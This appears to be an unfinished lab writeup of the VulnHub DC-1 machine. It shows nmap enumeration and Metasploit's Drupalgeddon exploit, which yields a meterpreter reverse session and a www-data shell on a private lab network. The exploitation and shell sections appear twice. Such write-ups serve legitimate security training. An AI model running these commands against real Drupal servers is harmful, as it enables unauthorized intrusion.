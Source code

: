 # VulnHub – DC-1 (Linux, Easy) (WIP)

⚠️ Work in Progress – This writeup is being updated step by step.

## Table of Contents
- [General Info](#general-info)
- [Objectives](#objectives)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Initial Shell](#initial-shell)
- [Privilege Escalation](#privilege-escalation)
- [Post-Exploitation Proof](#post-exploitation-proof)
- [Cleanup](#cleanup)
- [Key Takeaways](#key-takeaways)

## General Info
- **Machine name:** DC-1  
- **Platform:** VulnHub  
- **Author:** DCAU  
- **Release year:** 2015  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: root access)  

## Objectives
- Gain initial foothold through the web application  
- Escalate privileges to root  
- Practice CMS exploitation (Drupal) and privilege escalation techniques  

## Enumeration
The target machine was identified in the NAT network.

**Network discovery**  
```bash
sudo netdiscover -r 192.168.25.0/24
```
Discovered host: 192.168.25.148

Nmap scan

```bash
sudo nmap -sC -sV 192.168.25.148
```
Open ports:

22/tcp – OpenSSH 6.0p1 Debian 4+deb7u7

80/tcp – Apache 2.2.22 (Debian), running Drupal 7

111/tcp – rpcbind 2-4```

Initial observation:
The Drupal CMS on port 80 appears to be the main attack surface. The robots.txt file reveals multiple standard Drupal directories and files (e.g., /CHANGELOG.txt, /install.php), which may expose the exact version.

![Nmap scan](./images/01_nmap.png)

_The scan reveals SSH (22), HTTP (Drupal, port 80), and RPCBind (111) as the main exposed services._

## Exploitation

`CHANGELOG.txt` was not accessible (404), so version was unknown beyond **Drupal 7**.  
Tried **drupal_drupalgeddon2** (`check` inconclusive), then fell back to the older **Drupalgeddon (2014)** module.

**Metasploit**
```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.25.148
set TARGETURI /
set LHOST 192.168.25.128
set TARGET 0
run

```
Result: a meterpreter session opened successfully.
## Initial Shell

Validated context and dropped to a shell from meterpreter.

```
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux
meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www

```

Low-priv shell as `www-data` obtained via Drupalgeddon (2014).
## Exploitation

`CHANGELOG.txt` was not accessible (404), so the exact version of Drupal was unknown.  
We first tried **drupalgeddon2** (`check` was inconclusive), then fell back to the older **Drupalgeddon (2014)** module, which worked.

**Metasploit exploit:**
```bash
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.25.148
set TARGETURI /
set LHOST 192.168.25.128
set TARGET 0
run
```

Result: a Meterpreter session was successfully opened.
## Initial Shell

Validated the session and dropped into a shell.

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer    : DC-1
OS          : Linux DC-1 3.2.0-6-486 #1 Debian 3.2.102-1 i686
Meterpreter : php/linux

meterpreter > shell
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www

Low-privileged shell as **www-data** obtained via Drupalgeddon (2014).

![Foothold (meterpreter → shell)](./images/02_foothold_shell.png)
*Low-priv shell as `www-data` obtained via Drupalgeddon (2014).*
